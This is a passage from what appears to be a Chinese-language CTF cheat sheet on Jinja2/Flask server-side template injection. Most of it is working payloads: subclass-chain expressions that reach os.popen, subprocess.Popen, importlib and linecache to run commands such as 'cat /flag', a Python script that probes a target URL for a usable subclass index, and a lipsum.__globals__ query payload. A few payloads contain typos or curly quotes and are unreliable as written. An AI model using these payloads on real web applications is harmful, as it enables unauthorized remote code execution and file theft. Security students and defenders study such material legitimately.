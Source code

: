 ```python

```

```php
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("cat /flag").read()}}
```

#### subprocess.Popen模块

```python
import requests
url=input('请输入URL:')
for i in range(500):
    data={"name":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response)
        if(response.status_code==200):
            if'subprocess.Popen' in str(response.content):
                print(i)
    except:
        pass


```

```php
{{[].__class__.__base__.__subclasses__()[200]('ls/',shell=True,stdout=-1).communicate()[0].strip()}}
```

#### importlib类执行命令

importlib类执行命令相当于自己导入，可以加载第三方库，使用load_module加载os

```
{{[].__class__.__base__.__subclasses__()[69].["load_module"]("os")[“popen”](‘ls’).read()}}
```

#### linecache函数执行命令

linecache函数可用于读取任意一个文件的某一行，而这个函数中也引入了os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

```
{{[].__class__.__base__.__subclasses__()[19].__init__.__globals__.linecache.os.popen("ls").read()}}
```



## 4.lipsum 

```
?name={{(lipsum.__globals__).os.popen(request.args.ocean).read()}}&ocean =cat /flag
```

使用flask里的lipsum方法来执行命令：flask里的lipsum方法,可以用于得到__builtins__，而且lipsum.__globals__含有os模块

# 5.大括号过滤
